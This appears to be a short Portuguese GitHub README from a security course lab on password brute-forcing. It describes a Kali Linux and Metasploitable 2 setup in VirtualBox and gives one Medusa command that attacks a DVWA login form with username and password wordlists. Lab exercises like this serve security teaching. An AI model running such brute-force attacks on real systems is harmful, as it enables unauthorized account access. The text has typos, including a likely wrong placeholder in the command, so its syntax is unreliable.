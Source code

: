 # Brute-Force-de-Senhas-com-Medusa-e-Kali-Linux
Curso DIO de segurança

============================================================================================

Plataforma de Virtualização:

Virtual tual BOX

============================================================================================
Sistema SO utilizados:

Kali Linux VirtualBox;

metasploitable-linux-2.0.0.


Exemplo de Utilização da Ferramenta Meduza;

Linha de comando:
medusa -h 192.168.59.132 -U user.txt -P pass.txt -M http \
-m page:'/dvwa/login.php' \
-m form:'username=^USER^&password=^pass^&login=login'\
-m 'FAIL=login failed' -t 6








